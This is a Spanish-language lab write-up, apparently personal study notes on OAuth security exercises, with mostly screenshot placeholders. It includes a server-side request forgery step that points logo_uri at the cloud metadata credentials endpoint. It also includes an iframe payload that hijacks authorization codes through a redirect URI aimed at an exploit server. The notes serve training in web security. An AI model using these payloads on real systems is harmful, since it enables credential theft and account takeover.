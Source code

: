 Vemos el servidor de Oath al que se refiere y accedemos  a él añadiéndole /.well-known/openid-configuration

![[Pasted image 20240221103007.png]]

![[Pasted image 20240220114908.png]]

Vemos que nos podemos registrar

![[Pasted image 20240220114952.png]]

Aquí registramos un client_id en el registro --> /reg

![[Pasted image 20240220115228.png]]

Ponemos un payload de BurpCollaborator con btn + right

Y luego vemos is hay interacción HTTP:

![[Pasted image 20240221103623.png]]

![[Pasted image 20240225133238.png]]

Copiamos este clientID que sale de la petición del payload BurpCollaborator

![[Pasted image 20240221103712.png]]

Sustituimos el clientid en la petición GET de /client/logo y lo mandamos

![[Pasted image 20240221103900.png]]

Sustituyo la `Logo_uri` por `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` y obtengo el número secreto en el response.

![[Pasted image 20240225133400.png]]

  

### Lab - Hijacking via redirect URI

Me logeo normalmente, al deslogearme no necesito meter las credenciales otra vez ya que el sitio utiliza OAuth

  
  

![[Pasted image 20240225135514.png]]

`<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>`

![[Pasted image 20240225135553.png]]

Si fallamos, tendré que deslogearme para que salga una petición con nuevo clientD para cambiar en el exploit
